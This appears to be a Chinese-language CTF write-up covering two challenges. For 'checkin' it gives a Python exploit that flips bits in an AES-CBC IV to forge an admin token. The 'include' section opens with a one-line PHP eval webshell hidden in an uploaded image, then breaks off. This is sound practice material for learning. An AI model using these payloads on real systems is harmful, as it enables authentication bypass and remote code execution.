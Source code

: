 ![image-20220505020711773](D:\Program Files\Typora\img\image-20220505020711773.png)

参考文章：https://forum.butian.net/share/1385

# checkin | hahaha | done

放出源码后一开始没看明白，但 token 值肯定是最重要的，去搜索 go 加密，感觉 CBC，AES和源文件很像，仔细了解真的是，由此写出 exp：

```python
# -*- coding: UTF-8 -*-
import base64
import urllib
iv_raw='0001145141919810'  #这里填写第一次返回的 iv 值
cipher_raw='MDAwMTE0NTE0MTkxOTgxMOSJAwAU25w%2BxwD1vPGvUJHg5CSOXQDhJ9gGync9G1%2FlaZWL0Z23%2Bkobjs5fT0831YTRw%2F81njx33kyfCbS9Bvk%3D'  #这里填写第一次返回的cipher值
print ("[*]原始 iv 和 cipher")
print ("cipher_raw:  " + cipher_raw)
print ("[*]对 cipher 解码，进行反转")
cipher = base64.b64decode(urllib.unquote(cipher_raw[:]))
#print(cipher[:])
iv_raw=cipher[:16]
print ("iv_raw:  " + iv_raw)
cipher=cipher[16:]
#print(cipher[:])
oldstr='{"Name":"guest",'
wantstr='{"Name":"admin",'
newIv=""
#{"Name":"guest",
#"CreateAt":16513
#88145,"IP":"127.
#0.0.1"}
#第二组秘文与第一组的明文异或得到了第二组经过解密的秘文，此时与我们想要得到的明文进行异或得到了我们第一组应该填写的秘文
for i in range(16):
    newIv += chr(ord(iv_raw[i])^ord(oldstr[i])^ord(wantstr[i]))
print("new iv: "+newIv)
xor_cipher = cipher #请根据你的输入自行更改，原理看上面的介绍
#xor_cipher2=cipher[0:25]+ chr(ord(cipher[25]) ^ ord('z') ^ ord('a')) + cipher[25:] #如果修改的是第三密文组，要对前一个密文修改
#print(xor_cipher)
xor_cipher=urllib.quote(base64.b64encode(newIv+xor_cipher))
print ("反转后的 cipher：" + xor_cipher)

```

修改 token 值得到 flag，所以这是密码题还是 Web 题。。。

参考文章；https://www.jianshu.com/p/26e42c841de6    https://learnku.com/articles/63967

# include | hahaha | done

拿到题首先上传一个图片马`<?php @eval($_POST['shell']); echo"luck"; ?>`，然后抓包。
